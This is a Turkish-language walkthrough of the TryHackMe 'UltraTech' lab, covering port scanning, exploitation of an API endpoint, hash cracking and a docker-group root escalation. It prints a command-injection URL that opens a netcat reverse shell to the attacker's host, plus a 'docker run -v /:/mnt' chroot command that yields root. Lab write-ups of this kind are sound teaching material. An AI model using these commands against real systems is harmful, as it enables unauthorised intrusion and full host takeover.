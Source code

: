 ```yaml
---
title: 'TryHackMe | UltraTech WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [command injection, docker]
render_with_liquid: false
---
```


Bu yazımda TryHackMe platformunda yer alan “UltraTech” isimli meydan okumayı çözeceğim. Meydan okumada bir sürü görev verildiğinden akışı bozmaması adına görevleri buraya yazmayacağım.

```console
$ nmap -sV -sC -T4 10.10.4.48
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Port taraması ile beraber varsayılan scriptleri çalıştırmasını ve tespit edilen servislerin sürümlerini göstermesini sağladım. 21 ve 22 numaralı portların sürümlerinde ve kendisinde bir sıkıntı yok. Belki 22 numaralı portta kullanıcıların açığa çıkarılmasıyla ilgili bir açık olabilir. 2.0 ve 7.7 sürümleri arasında kullanılan OpenSSH servisinde sistemdeki kullanıcı isimlerini açığa çıkaran bir zafiyet bulunuyor.

8081 numaralı HTTP servisine gelecek olursak Node.js Express Framework üzerinde çalışan bir API sistemi gibi görünüyor. Nmap taramasında “PUT” ve “DELETE” gibi metotların belirtildiğini görüyoruz. Ancak bu metotlarla isteklerde bulunduğumda sorun çıkarıyordu.

Tüm portları kontrol etmesi amacıyla tekrar bir nmap taraması yaptıktan sonra 31331 numaralı bir HTTP servisinin daha açık olduğunu öğrendim. Web sitesinde biraz dolaştıktan sonra aşağıdaki javascript kodları ile karşılaştım.

```js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

Anlaşılan API üzerinden komut satırı elde edebileceğiz. Muhtemelen girilen veriler yeteri kadar veya hiç filtreden geçmediği için komut enjeksiyonuna yol açıyordur.

```
http://10.10.4.48:8081/ping?ip=`busybox nc 10.21.66.61 1234 -e /bin/bash`
```

```console
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.4.48] 46686
id
uid=1002(www) gid=1002(www) groups=1002(www)
```

Komut enjeksiyonunu tespit ediyor ve reverse shell alıyorum. Daha sonra ise bulunduğum dizindeki sqlite veri tabanından hashleri alıyor ve hashes.com yardımıyla kırıyorum.

```
0d0ea5111e3c1def594c1684e3b9be84:mrshea**
f357a0c52799563c7c7b76c1e7543a32:n1009**
```

r00t kullanıcısına geçtikten sonra ilk olarak id komutunu kullandım ve kullanıcının docker grubunda olduğunu gördüm. Ayrıca herhangi bir docker konteynerı kullanılmıyor.

```console
r00t@ultratech-prod:/home$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:/home$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
```

docker’in çalışması için root haklarına sahip olması gerektiğini biliyoruz. Haliyle docker grubunda olduğumuza göre root haklarını elde edebilecek bir konteyner yaratabiliriz.

```console
r00t@ultratech-prod:/home$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cd /root
# ls
private.txt
```

Yeni başlayanların mutlaka çözmesi gereken meydan okumalardan biri kendisi. Hem zor değil hemde çok kolay değil. Vakit ayırdığınız için teşekkür ederim.
